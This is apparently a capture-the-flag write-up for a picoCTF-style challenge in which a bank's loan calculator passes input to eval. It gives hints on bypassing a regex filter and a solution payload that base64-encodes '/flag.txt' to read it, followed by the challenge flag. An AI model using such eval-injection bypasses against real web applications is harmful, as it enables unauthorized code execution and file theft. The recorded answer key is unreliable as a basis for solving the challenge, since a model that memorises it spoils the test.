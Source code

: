 ## Descripción 
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an `eval` function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

Additional details will be available after launching your challenge instance.
## Hints
1. Bypass regex
2. The flag file is `/flag.txt`
3. You might need encoding or dynamic construction to bypass restrictions.
## Solución
```
open(__import__('base64').b64decode('L2ZsYWcudHh0').decode()).read()

Result: picoCTF{D0nt_Use_Unsecure_f@nctionsba15f0f7}

```
## Notas

## Referencias
